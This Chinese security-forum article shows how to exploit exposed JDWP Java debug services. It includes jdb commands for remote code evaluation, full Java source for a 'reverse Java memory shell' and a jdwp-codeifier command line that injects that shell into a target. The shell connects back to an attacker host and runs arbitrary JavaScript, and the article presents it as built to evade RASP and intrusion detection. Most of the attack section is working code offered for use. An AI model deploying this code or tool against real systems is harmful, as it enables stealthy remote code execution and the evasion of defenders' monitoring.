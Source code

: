 

# 通过 JDWP 漏洞注入"不一样"的内存马 - 先知社区

通过 JDWP 漏洞注入"不一样"的内存马

- - -

JDWP 全称 Java Debug Wire Protocol，JDWP 漏洞指对外开放了 Java 调试服务，从而可以实现远程代码执行。目前 JDWP 的武器化脚本一般只能命令执行，但直接执行命令可能被 RASP 拦截告警，或者被入侵检测发现，而且在实际渗透测试过程中，也不一定需要执行命令，更需要的可能是一个入口，这种情况下通常是注入内存马或者内存代理。本文基于这个需求实现了可以动态执行代码并注入内存马的 JDWP 漏洞利用工具。

## JDWP 漏洞利用

除了通过现有的脚本执行系统命令以外，其实也可以通过 Java 自带工具 jdb 执行任意 Java 代码：

```bash
jdb -connect com.sun.jdi.SocketAttach:hostname=127.0.0.1,port=8000
threads   #查找休眠线程
thread 0x25c   #选择休眠线程
stepi
eval java.lang.System.getProperty("os.name")
```

[![](assets/1701827759-99820e60cfe3717e2ef89e46a2492a85.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205001653-896d7654-92c0-1.png)

但有的类并不能直接使用，会出现找不到该类的情况，例如：

[![](assets/1701827759-d5b2c9c772bf72ee8b80fc37de8aad0d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205001701-8ea0a970-92c0-1.png)

当然也可以通过反射去加载，或者可能还有其他加载方式，不过我也没仔细研究这块，毕竟通过 jdb 执行代码还是很麻烦

## 反向内存 Shell

所谓内存马，应该一般都指内存 WebShell，这块已经有非常多的研究文章了。但如果放到 JDWP 漏洞中来看，可能并不一定适用，因为存在漏洞的应用本身或许不是一个 Web 应用。而这种情况下无论是通过常规意义上的反弹 shell 还是下载二进制木马进行进一步利用，都是一个敏感且高危的操作，可能被 RASP 拦截或者被入侵检测发现。

既然可以执行 Java 代码，那么其实可以在 Java 进程中启动一个线程，通过自定义的逻辑，去反弹出一个执行 Java 代码的"Shell"，具体实现如下：

```bash
package org.example;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.net.InetAddress;
import java.net.Socket;
import java.time.Duration;
import java.time.LocalDateTime;

public class App extends Thread {
    private ScriptEngine scriptEngine;

    private String host;
    private Integer port;
    private Double life;

    private String execCode(String code) {
        if (code.trim().equals("")) {
            return "";
        }
        try {
            Object result = scriptEngine.eval(code);
            if (result != null) {
                return result + "\n";
            } else {
                return "";
            }
        } catch (Exception e) {
            return e + "\n";
        }
    }

    private String getInfo() {
        String info = "  os: " + System.getProperty("os.name") + " " + System.getProperty("os.arch") + " " + System.getProperty("os.version");
        info += "\n";
        info += "user: " + System.getProperty("user.name");
        info += "\n";
        try {
            info += "host: " + InetAddress.getLocalHost().getHostName();
        } catch (Exception e) {
            info += "host: " + e;
        }
        return info;
    }

    @Override
    public void run() {
        boolean exit = false;
        LocalDateTime time = LocalDateTime.now();
        while (Duration.between(time, LocalDateTime.now()).toMillis() / (60.0 * 1000.0) < life && !exit) {
            try {
                Socket socket = new Socket(host, port);
                PrintWriter out = new PrintWriter(socket.getOutputStream());
                BufferedReader in = new BufferedReader(new InputStreamReader(socket.getInputStream()));

                scriptEngine = new ScriptEngineManager().getEngineByName("js");

                out.print(getInfo() + "\n\n>>> ");
                out.flush();
                String input;
                while ((input = in.readLine()) != null) {
                    time = LocalDateTime.now();

                    if (input.trim().equals("exit") || input.trim().equals("exit()")) {
                        exit = true;
                        socket.close();
                        break;
                    }
                    out.print(execCode(input) + ">>> ");
                    out.flush();
                }
            } catch (Exception e) {
                ;
            }

            if (!exit) {
                try {
                    Thread.sleep(5 * 1000);
                } catch (InterruptedException e) {
                    ;
                }
            }
        }
    }

    public App(String host, Integer port, Double life) {
        this.host = host;
        this.port = port;
        this.life = life;
    }

    public static void exploit(String host, Integer port, Double life) {
        new App(host,  port,  life).start();
    }

    public static void main(String[] args) {
        exploit("127.0.0.1", 8080, 0.3);
    }
}
```

服务端通过 nc 监听即可：

[![](assets/1701827759-913224eba64dbec7d946e0102fb90d98.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205001716-9773f20a-92c0-1.png)

这样就得到了一个交互式的不易被拦截的代码执行 Shell，对比正向的内存 WebShell，用"反向 Java 内存 Shell"去形容似乎更准确些。按照这个思路，其实还可以写一个"反向 Java 内存代理"，类似于 frp 的 socks5 反向代理功能

## jdwp-codeifier

对于 JDWP 漏洞的武器化利用最早可以追溯到 2014 年的项目：[https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier) ，作者通过 Python2 实现 JDWP 协议，以设置断点的方式获取线程上下文从而调用 Runtime.getRuntime().exec() 执行系统命令

2020 年 Lz1y 借鉴[MSF 中的利用方式](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/java_jdwp_debugger.rb)改写 jdwp-shellifier，通过对 Sleeping 的线程发送单步执行事件，完成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中，项目地址：[https://github.com/Lz1y/jdwp-shellifier](https://github.com/Lz1y/jdwp-shellifier)

2022 年 r3change 基于原版断点方式的 jdwp-shellifier 进行改写，增加了命令执行的回显，项目地址：[https://github.com/r3change/jdwp-shellifier](https://github.com/r3change/jdwp-shellifier)

但以上都无法满足前文中的代码执行需求，所以我基于 jdwp-shellifier 再次改写了一版进阶的 JDWP 漏洞利用脚本，改名为[jdwp-codeifier](https://github.com/l3yx/jdwp-codeifier)，同样使用不需要等待断点的方式且能够动态执行 Java/Js 代码并获得回显。同时也将上文中的内存 Shell 内置进了工具中，反弹 Java 内存 Shell：

```bash
python jdwp-codeifier.py -t 192.168.65.254 -p 8000 -m rshell -a 127.0.0.1:8080 -l 0.1
# -a 指定接收 shell 的地址
# -l 指定 shell 与服务器连接不上时的最大存活时间（分钟）（每隔 5 秒自动重连）
```

[![](assets/1701827759-077edf7cb759e0818ce72340457b276b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205001730-9f7cc47c-92c0-1.png)

最后，项目地址：[https://github.com/l3yx/jdwp-codeifier](https://github.com/l3yx/jdwp-codeifier)
